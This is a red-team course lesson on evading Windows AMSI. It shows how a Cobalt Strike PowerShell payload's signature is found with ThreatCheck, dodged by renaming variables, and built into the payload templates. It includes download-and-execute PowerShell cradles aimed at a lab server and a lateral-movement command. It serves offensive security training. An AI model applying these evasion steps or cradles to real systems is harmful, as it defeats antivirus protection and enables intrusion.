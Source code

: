 The [Antimalware Scan Interface](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal) (AMSI) is a component of Windows which allows applications to integrate themselves with an antivirus engine by providing a consumable, language agnostic interface.  It was designed to tackle "fileless" malware that was so heavily popularised by tools like the [EmpireProject](https://github.com/EmpireProject/Empire), which leveraged PowerShell for complete in-memory C2.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/0fa/290/adf/1663164259080.jpg)

  

Any 3rd party application can use AMSI to scan user input for malicious content.  Many Windows components now use AMSI including PowerShell, the Windows Script Host, JavaScript, VBScript and VBA.  If we try to execute one of the PowerShell payloads on our attacking machine, it will get blocked.
```
PS C:\Users\Attacker> C:\Payloads\smb_x64.ps1
At C:\Payloads\smb_x64.ps1:1 char:1
+ Set-StrictMode -Version 2
+ ~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
```
  

The alert that Defender produces is tagged with `amsi:` rather than `file:`, indicating that something malicious was detected in memory.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/0e9/93c/843/detection.png)

  

And attempting to move laterally to the file server will also fail.
```
beacon> jump winrm64 fs.dev.cyberbotic.io smb
[-] Could not connect to pipe: 2 - ERROR_FILE_NOT_FOUND
```
  

Even though this is in-memory, the detections are still based on "known bad" signatures.  PowerShell files are a little easier to analyse compared to binary files - scanning it with ThreatCheck and the `-e amsi` parameter will reveal the bad strings.
```
PS C:\Users\Attacker> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\smb_x64.ps1 -e amsi
[+] Target file size: 358025 bytes
[+] Analyzing...
[!] Identified end of bad bytes at offset 0x57450
00000000   4D 6A 49 79 4D 6A 49 79  4D 6A 49 79 4D 6A 49 79   MjIyMjIyMjIyMjIy
00000010   4D 6A 49 79 4D 6A 49 79  4D 6A 49 79 4D 6A 49 79   MjIyMjIyMjIyMjIy
00000020   4D 6A 49 79 4D 6A 49 79  4D 6A 49 79 4D 6A 49 79   MjIyMjIyMjIyMjIy
00000030   4D 6A 49 79 4D 6A 49 79  4D 6A 49 79 4D 6A 49 79   MjIyMjIyMjIyMjIy
00000040   4D 6A 49 79 4D 6A 49 79  4D 6A 49 79 4D 6A 49 79   MjIyMjIyMjIyMjIy
00000050   4D 6A 49 79 4D 6A 49 79  4D 6A 49 79 4D 6A 49 79   MjIyMjIyMjIyMjIy
00000060   4D 6A 49 79 4D 6A 49 79  4D 6A 49 79 4D 6A 49 79   MjIyMjIyMjIyMjIy
00000070   4D 6A 49 79 4D 6A 49 79  4D 6A 49 79 4D 6A 49 79   MjIyMjIyMjIyMjIy
00000080   4D 6A 49 79 4D 6A 49 79  4D 6A 49 79 4D 6A 49 79   MjIyMjIyMjIyMjIy
00000090   4D 6A 49 79 4D 6A 49 79  4D 6A 49 79 4D 6A 49 79   MjIyMjIyMjIyMjIy
000000A0   4D 6A 49 79 4D 6A 49 77  3D 3D 27 29 0A 0A 09 66   MjIyMjIw==')···f
000000B0   6F 72 20 28 24 78 20 3D  20 30 3B 20 24 78 20 2D   or ($x = 0; $x -
000000C0   6C 74 20 24 76 61 72 5F  63 6F 64 65 2E 43 6F 75   lt $var_code.Cou
000000D0   6E 74 3B 20 24 78 2B 2B  29 20 7B 0A 09 24 76 61   nt; $x++) {··$va
000000E0   72 5F 63 6F 64 65 5B 24  78 5D 20 3D 20 24 76 61   r_code[$x] = $va
000000F0   72 5F 63 6F 64 65 5B 24  78 5D 20 2D 62 78 6F 72   r_code[$x] -bxor

[*] Run time: 3.13s
```

  Ensure real-time protection is **enabled** in Defender before running ThreatCheck against script artifacts.

  

The portion of the output that we want to pay attention to is the loop, which is on lines 26-28 of `smb_x64.ps1`.
```powershell
for ($x = 0; $x -lt $var_code.Count; $x++) {
	$var_code[$x] = $var_code[$x] -bxor 35
}
```
  

As a quick test, use the find & replace in an editor such as VSCode to change the `$x` and `$var_code` variable names to something else, e.g:
```
for ($i = 0; $i -lt $enc.Count; $i++) {
    $enc[$i] = $enc[$i] -bxor 35
}
```
  

ThreatCheck now reports the payload as clean.
```
PS C:\Users\Attacker> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\smb_x64.ps1 -e amsi
[+] No threat found!
[*] Run time: 0.34s
```
  

To make this change permanent across all the PowerShell payloads, we can modify the relevant template in the Resource Kit.  Where the Artifact Kit was used to modify the binary artifacts; the Resource Kit is used to modify the script-based artifacts including the PowerShell, Python, HTA and VBA payloads.  The Resource Kit can be found in `C:\Tools\cobaltstrike\arsenal-kit\kits\resource` and the 64-bit stageless PowerShell payload is generated from `template.x64.ps1`.

Interestingly, if we check the content, Fortra have already provided different variable names - `$zz` in place of `$x` and `$v_code` in place of `$var_code`. 
```
for ($zz = 0; $zz -lt $v_code.Count; $zz++) {
	$v_code[$zz] = $v_code[$zz] -bxor 35
}
```
  

As before, use the included build script and specify an output directory, then load `resources.cna` into Cobalt Strike.
```
ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/resource> ./build.sh /mnt/c/Tools/cobaltstrike/resources
[Resource Kit] [+] Copy the resource files
[Resource Kit] [+] Generate the resources.cna from the template file.
[Resource Kit] [+] The resource kit files are saved in '/mnt/c/Tools/cobaltstrike/resources'
```
  

---

  

One common source of confusion is when hosting PowerShell payloads using the Scripted Web Delivery method, as these will generally get caught when your stageless PowerShell payloads do not.
```
PS C:\Users\Attacker> iex (new-object net.webclient).downloadstring("http://10.10.5.50/a")
IEX : At line:1 char:1
+ Set-StrictMode -Version 2
+ ~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
At line:1 char:304409
+ ... WTtJBgA="));IEX (New-Object IO.StreamReader(New-Object IO.Compression ...
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
```
  

The reason for this is that it uses the `compress.ps1` template instead, which decompresses the payload from a Gzip stream.  In my (limited) experience, AMSI will flag almost anything as malicious if it sees a binary file coming out of a Gzip stream.  Unless you have a specific requirement for using a compressed version, in which case you can re-work this template as well, the easiest workaround is to just host your stageless PowerShell payload directly via _Site Management > Host File_.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/a02/7fe/afb/host-file.png)

  
```
PS C:\Users\Attacker> iex (new-object net.webclient).downloadstring("http://10.10.5.50/a2")
```